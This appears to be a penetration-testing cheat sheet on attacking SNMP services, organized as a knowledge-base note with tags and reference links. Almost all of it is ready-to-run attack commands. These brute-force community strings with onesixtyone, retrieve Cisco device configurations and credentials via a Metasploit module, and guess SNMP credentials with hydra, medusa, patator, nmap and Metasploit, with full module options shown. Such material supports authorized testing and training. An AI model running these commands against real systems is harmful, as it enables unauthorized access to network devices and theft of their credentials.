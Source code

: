 ```yaml
---
author(s):
  - Userware
tags:
  - vulnerability-assessment
  - initial-access
  - password-cracking
  - network-ports
  - onesixtyone
  - hydra
  - medusa
  - patator
  - network-mapper
  - metasploit-framework
---
```

# SNMP

## 01 - Brute Force Community Strings

```
$ cat > community.txt << EOF
public
private
manager
EOF

$ onesixtyone -c community.txt -i ip_targets.txt -o output.txt -w 100
```

## 02 - Retrieve Credentials

### 2.1 - Cisco

```
msf > use auxiliary/scanner/snmp/cisco_config_tftp

msf auxiliary(scanner/snmp/cisco_config_tftp) > options

msf auxiliary(scanner/snmp/cisco_config_tftp) > set rhosts <IP>

msf auxiliary(scanner/snmp/cisco_config_tftp) > run
```

## 03 - Brute Force Credentials

### 3.1 - OneSixtyOne

```
$ onesixtyone <IP> -c passwords.lst
```

### 3.2 - Hydra

TODO: Fill this info

`$ hydra -U snmp`

```
$ hydra -P passwords.lst <IP> snmp
```

### 3.3 - Medusa

```
$ medusa -M snmp -h <IP> -u <username> -P passwords.lst
```

### 3.4 - Patator

```
$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=unknownUserName

$ patator snmp_login host=<IP> version=3 user=<username> auth_key=FILE0 0=passwords.lst -x ignore:mesg=wrongDigest
```

### 3.5 - Network Mapper

```
$ sudo nmap -sU -p 161,162 -n --script snmp-brute --script-args "snmp-brute.communitiesdb=passwords.lst" <IP
```

### 3.6 - Metasploit

```
msf > use auxiliary/scanner/snmp/snmp_login

msf auxiliary(scanner/snmp/snmp_login) > options

Module options (auxiliary/scanner/snmp/snmp_login): 

   Name              Current Setting                                       Required  Description 
   ----              ---------------                                       --------  ----------- 
   BLANK_PASSWORDS   false                                                 no        Try blank passwords for all users 
   BRUTEFORCE_SPEED  5                                                     yes       How fast to bruteforce, from 0 to 5 
   DB_ALL_CREDS      false                                                 no        Try each user/password couple stored in the current database 
   DB_ALL_PASS       false                                                 no        Add all passwords in the current database to the list 
   DB_ALL_USERS      false                                                 no        Add all users in the current database to the list 
   DB_SKIP_EXISTING  none                                                  no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm) 
   PASSWORD                                                                no        The password to test 
   PASS_FILE         /opt/metasploit/data/wordlists/snmp_default_pass.txt  no        File containing communities, one per line 
   RHOSTS                                                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             161                                                   yes       The target port 
   STOP_ON_SUCCESS   false                                                 yes       Stop guessing when a credential works for a host 
   THREADS           1                                                     yes       The number of concurrent threads (max one per host) 
   USER_AS_PASS      false                                                 no        Try the username as the password for all users 
   VERBOSE           true                                                  yes       Whether to print output for all attempts 
   VERSION           1                                                     yes       The SNMP version to scan (Accepted: 1, 2c, all)

msf auxiliary(scanner/snmp/snmp_login) > set rhosts <IP>

msf auxiliary(scanner/snmp/snmp_login) > set pass_file passwords.lst

msf auxiliary(scanner/snmp/snmp_login) > set stop_on_success true

msf auxiliary(scanner/snmp/snmp_login) > run -j

msf auxiliary(scanner/snmp/snmp_login) > creds
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Telnet|Initial Access: Telnet]]

### Hacking Articles

- [Hacking Articles: Password Cracking SNMP](https://www.hackingarticles.in/password-crackingsnmp/)

### Penetration Testing Tools

- [Penetration Testing Tools: Hydra Protocols](https://en.kali.tools/?p=220)

### Mike Bond

- [Mike Bond: Cisco SNMP Secrets](https://bond-o.medium.com/cisco-snmp-secrets-e4b731b19737)